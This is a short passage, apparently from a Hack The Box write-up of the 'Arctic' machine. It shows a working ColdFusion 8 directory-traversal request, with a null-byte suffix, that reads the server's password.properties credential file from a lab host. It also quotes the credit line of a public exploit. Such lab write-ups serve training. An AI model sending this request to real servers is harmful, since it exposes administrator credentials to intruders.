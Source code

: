 ![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Arctic/4.png)

    .............................................
    # Working GET request courtesy of carnal0wnage:
    # http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
    .....................................................

// navigating to save directory in our server

    http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

// gets us output on the web page

![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Arctic/5.png)
